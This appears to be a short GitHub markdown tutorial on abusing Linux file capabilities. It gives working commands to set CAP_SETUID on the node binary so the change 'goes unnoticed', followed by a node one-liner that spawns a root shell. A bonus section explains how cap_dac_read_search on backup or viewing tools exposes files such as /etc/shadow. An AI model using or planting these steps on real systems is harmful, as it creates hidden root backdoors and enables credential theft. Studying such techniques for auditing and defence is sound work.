



# Capabilities

## Premise

**CAP_SETUID** seems to be the most direct capability to ensure a fast escalation of privileges, which in the end, is what we are looking for. In this case we are going to assign this capability to node, a tool widely used in development environments, so maybe we can make it go a little unnoticed.

### Steps to follow

1. We assign the capability to the binary
```
sudo setcap cap_setuid+ep /usr/bin/node
```
2. We enter with the user we want to use to escalate privileges and execute the next line.
```
node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
```

3. And... root  



## Bonus

Investigating a little more (In GTFObins they only mention the capability cap_setuid), I have found some plausible situations of misuse of other capabilities like **cap_dac_read_search**. In this case, for example, we could find that an administrator has assigned this capability to the binary tar(or zip, or some binary that could be used as an excuse to make some kind of backup).

This capabilty grants reading permission to the application in question.  
### Why would this be the case?
Well, in a production environment we can find folders that are not readable by "others", such as some tomcat folders where ```/var/log/tomcat9``` are not accessible (so even in a major oversight, we could find this capability even in cat, tail ... etc) or even in situations where some kind of backup policy has been designed to exploit this capability (without reading permission can not copy files and therefore make a backup of them)

### ¿Where is the danger?

Simply put, an application with this capability could access files such as ```/etc/shadow``` and give the attacker valuable information.


